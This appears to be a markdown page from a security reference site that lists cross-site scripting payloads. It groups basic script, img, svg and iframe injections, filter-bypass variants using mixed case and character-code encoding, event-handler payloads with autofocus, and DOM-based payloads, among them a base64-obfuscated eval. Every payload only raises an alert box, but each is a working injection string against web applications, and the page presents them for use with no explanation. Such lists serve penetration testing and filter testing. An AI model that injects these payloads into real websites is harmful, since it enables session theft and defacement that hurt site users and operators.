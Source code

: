 ```yaml
---
layout: default
title: XSS Payloads
---
```


# ⚡ Cross-Site Scripting (XSS) Payloads

## Basic XSS
```
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
<iframe src=javascript:alert('XSS')>
```

## Bypass Filters
```
<ScRiPt>alert('XSS')</ScRiPt>
<script>alert(String.fromCharCode(88,83,83))</script>
<img src="x" onerror="alert('XSS')">
<svg/onload=alert('XSS')>
```

## Event Handlers
```
<body onload=alert('XSS')>
<input onfocus=alert('XSS') autofocus>
<select onfocus=alert('XSS') autofocus>
<textarea onfocus=alert('XSS') autofocus>
```

## DOM-based XSS
```
javascript:alert('XSS')
<img src=x onerror=eval(atob('YWxlcnQoJ1hTUycp'))>
<script>document.write('<img src=x onerror=alert(1)>')</script>
```